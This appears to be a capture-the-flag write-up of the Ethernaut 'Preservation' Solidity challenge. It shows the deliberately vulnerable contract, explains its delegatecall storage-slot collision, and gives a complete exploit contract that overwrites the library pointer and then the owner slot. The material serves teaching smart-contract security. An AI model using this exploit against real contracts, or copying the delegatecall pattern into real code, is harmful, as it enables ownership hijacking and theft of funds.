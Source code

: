 <div align="center">

# Preservation

</div>



**Preservation (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}


```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

- `Preservation` uses two library contracts (`timeZone1Library` and `timeZone2Library`) to store timestamps.  
- The library calls are made via `delegatecall` in `setFirstTime` and `setSecondTime`.  
- **Key idea:** `delegatecall` runs the library code **in the storage context of `Preservation`**. This means any storage writes in the library affect `Preservation`’s storage slots.  
- **So:** if a malicious contract replaces a library pointer, it can manipulate critical storage, including `owner`.

2. **Vulnerability Highlight (key part)**


```solidity
// delegatecall writes to Preservation storage, not library storage
function setFirstTime(uint256 _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```






## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract PreservationExploit {
    // Storage layout must match Preservation contract
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;

    function attack(address preservationAddress) external {
        Preservation preservation = Preservation(preservationAddress);
        
        // Step 1: Change timeZone1Library to point to this exploit contract
        // storedTime in LibraryContract writes to slot 0, which is timeZone1Library in Preservation
        preservation.setFirstTime(uint256(uint160(address(this))));
        
        // Step 2: Now call setFirstTime again, but this time it will delegatecall to OUR contract
        // We'll make setTime write to slot 2 (owner)
        preservation.setFirstTime(uint256(uint160(msg.sender))); // msg.sender becomes the new owner
    }

    // This function must have the same signature as LibraryContract's setTime
    function setTime(uint256 _time) public {
        // We control what storage slot to write to
        // In Preservation, owner is at storage slot 2
        assembly {
            sstore(2, _time)
        }
        
        // Alternatively without assembly:
        // owner = address(uint160(_time));
    }
}


```

---


